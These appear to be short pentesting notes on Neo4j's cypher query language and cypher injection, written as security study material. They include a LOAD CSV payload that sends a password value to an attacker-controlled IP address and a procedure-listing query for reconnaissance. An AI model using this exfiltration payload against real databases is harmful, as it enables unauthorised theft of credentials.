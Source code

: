 
[Graph database](https://en.wikipedia.org/wiki/Graph_database) and used by [[Privilege Escalation#Bloodhound|Bloodhound]]


Neo4j query language is called `cypher` and performing injection attacks is called `cypher injection`. Check the cheatsheet about all of this [here](https://pentester.land/blog/cypher-injection-cheatsheet/****)

## Useful queries

- `LOAD FROM CSV`: To extract information that would be otherwise unaccessible (because further parsed in the code for example), `LOAD FROM CSV` can be quite useful. The target can be a http link to one's own machine (after setting up netcat), and we can happen anything key/value at the end to receive the information: 
```cyhper
LOAD CSV FROM 'http://<ip>/'+password.value  RETURN password
```

- inline comment is `//` and multi-line `/*`
- Procedures are function that are available inside cypher, which can be extended with custom ones. List all procedures with: 
```cyhper
CALL dbms.procedures()
```
